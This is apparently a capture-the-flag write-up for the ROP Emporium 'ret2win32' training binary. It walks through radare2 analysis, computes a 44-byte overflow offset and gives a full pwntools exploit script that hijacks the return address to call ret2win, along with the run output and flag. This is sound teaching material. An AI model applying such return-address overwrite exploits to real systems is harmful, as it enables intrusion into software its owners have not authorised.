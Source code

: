 # Ret2Win32 (Quick)

*Created: 5.22.2020*

*Last Updated: 5.22.2020*

Read the [problem description](https://ropemporium.com/challenge/ret2win.html) for what you need to do to start tackling the problem.

This is a memory overwrite problem where we need to send a buffer to overwrite the space allocated for a local variable and ebp, and then pass a return address to a function not normally called during execution. 

Run the following commands to start your analysis of the ret2win32 executable. 

```
r2 -Ad ./ret2win32

(in radare now)

s main

Vpp 
(to enter visual mode and see the file's disassembly
```

In *main* you should see that there is a call to the pwnme function. If you keep looking, you should find a ret2win function that prints the flag, but ret2win is not normally called during program execution.

In the pwnme function you should see a local variable local_28h. 

The 28h implies that 28h bytes of memory is allocated for user input. 28h in decimal is 40.

Then we need 4 bytes to overwrite ebp. 

Now we need to find the address of ret2win. 

```
|   sym.ret2win ();
|           0x08048659      55             push ebp   -> address of ret2win that we will make our new return address in our evil input        ```
 
Using pwntools we can write our exploit now. 

```
#!/usr/bin/env python2
from pwn import *

#start the ./ret2win32 process and save it in variable p
p = process('./ret2win32')

bufferToSend = "A"*44
retAddrOfWin = p32(0x08048659)

evil = bufferToSend + retAddrOfWin

print(p.recvuntil('fgets!'))

p.sendline(evil)

print(p.recvall())
```

Then we run the exploit. 

```
~/pwn/ret2win32$ python exploit.py 
[+] Starting local process './ret2win32': pid 11519
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!
[+] Receiving all data: Done (65B)
[*] Process './ret2win32' stopped with exit code -11 (SIGSEGV) (pid 11519)


> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
```

Yay. The flag!
